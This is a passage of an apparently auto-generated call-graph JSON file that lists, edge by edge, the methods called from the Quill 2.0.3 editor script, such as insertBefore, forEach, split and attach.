"relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "move"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "statics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "iterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attachUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enforceAllowedChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splitAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splitAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enforceAllowedChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splitAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enforceAllowedChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 